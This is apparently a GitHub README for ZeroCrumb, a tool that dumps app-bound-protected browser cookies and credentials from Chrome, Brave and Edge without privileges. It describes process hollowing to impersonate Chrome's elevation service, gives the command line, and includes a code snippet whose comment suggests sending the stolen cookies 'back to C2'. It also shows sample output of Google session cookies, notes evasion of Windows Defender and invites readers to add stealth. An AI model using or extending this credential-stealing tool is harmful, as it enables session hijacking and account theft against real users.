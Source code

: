 
# ZeroCrumb

Dumping App Bound Protected Credentials & Cookies Without Privileges.

## Explanation

ZeroCrumb bypasses the Chrome Elevation Service by impersonating a Chrome instance using [Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/), Effectively allowing us to use the IElevator COM interface to decrypt the App Bound Key.

Then, The key dumper running the in the hollowed chrome instance will send the decrypted key back to ZeroCrumb via a [Named Pipe](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes).

After this, ZeroCrumb decrypts the cookies for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it. 

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** class:
```cpp
    auto reader = new CookieReader(cookiesPath.c_str(), key);

    reader->initSqliteDb();
    reader->prepare(queries::cookies);
    reader->populateCookies();
    
    for (auto& cookie : reader->cookies) {
        string name = cookie->name;
        string site = cookie->site;
        string path = cookie->path;
        string cookieValue = cookie->cookie;
        // dump to file, send back to C2, etc...
    }
```

## Depedencies
ZeroCrumb requires two [Vcpkg](https://vcpkg.io/) dependencies:
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .veepn.com
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits
[Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/) by [hasherezade](https://github.com/hasherezade/).

[App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/) by [Xaitax](https://github.com/xaitax/).

